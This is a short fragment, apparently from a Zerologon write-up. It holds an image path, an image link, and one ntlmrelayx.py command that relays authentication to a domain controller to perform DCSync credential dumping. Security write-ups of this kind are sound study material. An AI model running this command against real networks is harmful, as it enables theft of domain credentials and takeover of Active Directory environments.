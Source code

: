 ```py
❯ ntlmrelayx.py -t dcsync://$domain_controller_2 -smb2support
```

![zerologon_sploit](/assets/posts/2023-07-10-zerologon/zerologon_sploit.svg)
